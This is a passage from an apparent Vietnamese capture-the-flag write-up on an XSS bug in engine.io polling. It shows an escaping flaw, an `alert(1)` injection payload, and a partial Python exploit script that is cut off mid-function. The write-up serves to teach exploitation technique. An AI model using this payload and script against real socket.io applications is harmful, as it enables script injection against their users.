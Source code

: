 Mình sẽ simulate lại sau khi data đi qua 1 hàm unescape: 

![image](https://github.com/user-attachments/assets/7965e476-e920-424c-8d5e-a1b7af9abb0d)

Khá rõ ràng, dấu `\` ban nãy dường như đã bị engineio escape sai, vậy làm sao để ta lợi dùng điều này? Tạo 2 socket session, emit payload ở `\" + alert(1));` ở session 1, session 2 sẽ dùng để trỏ script src đến polling endpoint của socketio, cụ thể như sau (original author: `Trixter`)

```py
import socketio
import requests
import time
import json

base_url = "http://localhost:8080"

def create_sid():
    session = requests.Session()
    login = session.post(f'{base_url}/', data = {}, allow_redirects=False)
    assert login.status_code == 302, login.status_code

    res = session.get(f'{base_url}/socket.io/', params = {
        'EIO': 4,
        'transport': 'polling',
        't': 'bingus',
    })
    assert res.status_code == 200, res.status_code

    socket_session = json.loads(res.text[1:])
    print('fake session', socket_session)

    res = session.post(f'{base_url}/socket.io/', params = {
        'EIO': 4,
        'transport': 'polling',
        't': 'P3qHGUZ',
        'sid': socket_session['sid'],
    }, data = b'40')
    assert res.status_code == 200, res.status_code

    return socket_session['sid']

bot_session = requests.Session()
login = bot_session.post(f'{base_url}/', data = {
    'name': 'FizzBuzz101',
}, allow_redirects=False)
assert login.status_code == 302, login.status_code

sio = socketio.Client(http_session=bot_session)
ready = False

@sio.event
def connect():
    global ready

    print('connected!')

    # fake disconnect event so that the bot can connect as well
    sio.emit('disconnect')
    time.sleep(1)
    ready = True
    print('ready for bot!')

@sio.event
def message(data):
```